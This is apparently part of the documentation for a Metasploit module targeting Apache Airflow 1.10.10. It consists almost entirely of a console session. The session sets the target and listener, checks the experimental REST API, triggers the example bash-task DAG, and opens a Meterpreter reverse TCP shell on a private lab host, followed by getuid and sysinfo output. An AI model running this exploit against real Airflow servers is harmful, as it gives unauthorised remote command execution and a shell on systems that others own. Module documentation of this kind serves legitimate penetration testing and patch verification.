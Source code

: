 * Sometimes, the first Meterpreter session fails, but the second one opens successfully.

```msf
msf6 > use exploit/multi/http/apache_airflow_dag_rce
[*] Using configured payload cmd/unix/python/meterpreter_reverse_tcp
msf6 exploit(multi/http/apache_airflow_dag_rce) > set RHOSTS 192.168.245.139
RHOSTS => 192.168.245.139
msf6 exploit(multi/http/apache_airflow_dag_rce) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/apache_airflow_dag_rce) > exploit

[*] Started reverse TCP handler on 192.168.245.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking target web server for a response at: http://192.168.245.139:8080/admin/airflow/login
[+] Target is running Apache Airflow.
[*] Checking Apache Airflow version...
[+] Target is running Apache Airflow Version 1.10.10.
[+] The target appears to be vulnerable. However, extra checks are still required to make sure the example DAGs are loaded, running, and executable.
[*] Checking if Airflow Experimental REST API is accessible at: http://192.168.245.139:8080/api/experimental/test
[+] Airflow Experimental REST API is accessible.
[*] Checking for vulnerability of 'example_trigger_target_dag.bash_task'...
[+] The 'example_trigger_target_dag.bash_task' is vulnerable.
[*] Checking if 'example_trigger_target_dag.bash_task' is enabled...
[+] The 'example_trigger_target_dag.bash_task' is enabled.
[*] Creating new DAG...
[+] Successfully created DAG: Created <DagRun example_trigger_target_dag @ 2023-08-10 04:51:19+00:00: manual__2023-08-10T04:51:19+00:00, externally triggered: True>
[*] Waiting for Scheduler to run the DAG. This might take a while...
[!] If the Bash task is never queued, then the Scheduler might not be running.
[!] Bash task is not yet queued...
[!] Bash task is not yet queued...
[*] Bash task is queued...
[*] Bash task is queued...
[+] Bash task is running. Expect a session if executed successfully.
[-] Meterpreter session 1 is not valid and will be closed
[*] 192.168.245.139 - Meterpreter session 1 closed.
[*] Meterpreter session 2 opened (192.168.245.128:4444 -> 192.168.245.139:44236) at 2023-08-10 11:22:39 +0630

meterpreter > getuid
Server username: airflow
meterpreter > sysinfo
Computer        : 94b1e820e392
OS              : Linux 4.19.0-25-amd64 #1 SMP Debian 4.19.289-1 (2023-07-24)
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter >
```
